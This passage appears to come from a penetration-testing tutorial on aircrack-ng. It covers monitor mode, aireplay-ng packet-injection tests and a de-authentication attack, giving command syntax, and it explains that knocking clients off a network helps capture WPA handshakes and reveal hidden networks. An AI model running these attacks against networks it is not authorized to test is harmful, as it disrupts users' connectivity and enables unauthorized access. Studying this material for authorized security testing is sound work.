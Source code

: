 The basic injection test determines if your card successfully supports injection. As mentioned earlier, the wireless card must first be in monitor mode

```ShellSession
>> airmon-ng start <interface name> [channel]
```

Next, the basic injection test is launched using the following syntax:

```ShellSession
>> aireplay-ng -9 <interface name>
```

You can run the injection test against a hidden or specific SSID by using the following syntax:

```ShellSession
aireplay-ng -9 -e <ESSID> -a <AP MAC><interface name>
```

#### Card-to-Card (Attack) Injection Test

The card-to-card injection test is a far more robust check that also tests for the ability of the card to implement various Aireplay attacks. This test has the following syntax where the

interface specified with `-i` is the interface that acts as the access point:

```ShellSession
aireplay-ng -9 -i <input interface><interface name>
```

## Aireplay-ng De-authentication Attack

Disassociating clients can be beneficial in a number of situations:

- Recovering a cloaked/hidden ESSID
- Capturing WPA/WPA2 4-way handshakes by forcing clients to re-authenticate
- Generating ARP requests (Windows clients often flush their ARP cache when disconnected)

Naturally, this attack is **completely useless** if there are no associated wireless clients on the network.

The de-authentication attack has the following usage:

```ShellSession
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC><interface name>

Where:

- -0: de-authentication attack
- 1: the number of de-auths to send. 0 means to send continuously
- -a: MAC address of the AP
- -c: MAC address of the client to deauthenticate. if this is omitted, all clients will be de-authenticated
- \<interface name>: your monitor mode interface name
```

### Usage Tips:
